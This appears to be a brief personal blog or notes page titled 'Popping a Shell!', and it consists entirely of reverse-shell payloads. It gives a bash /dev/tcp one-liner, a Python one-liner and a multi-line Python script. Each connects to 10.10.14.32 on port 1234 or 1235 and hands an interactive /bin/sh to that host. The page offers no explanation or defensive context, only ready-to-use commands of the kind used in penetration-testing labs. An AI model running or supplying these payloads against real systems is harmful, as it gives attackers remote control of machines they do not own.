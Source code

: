 ```yaml
---
title: "Popping a Shell!"
date: 2021-02-10T17:23:05+01:00
categories: []
tags: []
---
```


A few ways to pop a shell...

* `/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.32/1234 0>&1'`

* `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.32",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

* Python in a file :
```text
import socket,subprocess,os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.32",1235))
os.dup2(s.fileno(),0) 
os.dup2(s.fileno(),1) 
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
